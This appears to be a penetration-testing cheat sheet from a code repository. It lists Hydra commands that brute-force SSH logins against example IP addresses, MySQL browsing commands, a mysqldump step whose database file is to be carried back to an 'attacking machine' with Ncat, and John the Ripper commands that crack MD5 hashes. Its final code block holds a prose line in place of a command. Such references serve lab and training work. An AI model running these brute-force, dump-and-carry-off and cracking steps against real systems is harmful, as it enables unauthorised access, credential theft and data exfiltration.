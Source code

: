 ### Hydra
#### Perform an SSH Brute Force Attack

Perform a brute-force attack
```bash
hydra -L /usr/share/ncrack/short.usr -P /usr/share/ncrack/short.pwd ssh:198.51.100.1
```

Show Hydra's help options using the help command `hydra -h`

```bash
# Use a password list and a username list to bruteforce an ssh login
hydra -L /usr/share/ncrack/common.usr -P /usr/share/ncrack/default.pwd ssh://198.51.100.174
```
### MySQL

Remember that every MySQL command ends with a `;`

#### MySql Commands

Display all installed databases
```bash
show databases;
```
Connect to a specific database
```bash
use <db>;
```
Display all tables in a database.
```bash
show tables;
```
Display column names for a given table.
```bash
describe <table>;
```

Select all records from a table.

```bash
select * from <table>;
```
### mysqldump
Using mysqldump, you can save an entire database to a text file. This file can then be transferred back to your attacking machine with Ncat.
```bash
#Saves the `tikiwiki` database to `/tmp/tikiwiki.sql`.
sudo mysqldump tikiwiki > /tmp/tikiwiki.sql
```
### John the Ripper
John the Ripper is a common password cracker. It is free and easy to use. JtR is popular because it can crack a wide variety of hashes.
#### Crack MD5 Hashes
```bash
# Using md5 and a hashlist
john --format=raw-md5 <hashlist>
# Show passwords that have already been cracked
john --show <hashlist>
```
### SSH and SCP
Secure Shell (SSH) is commonly used for system administration because it encrypts all data sent between hosts.
Secure Copy (SCP) uses an SSH connection to copy files from host to host in an encrypted tunnel. SCP uses the general syntax of `scp file-to-copy destination-location`
```bash
Connect to a machine using SSH
```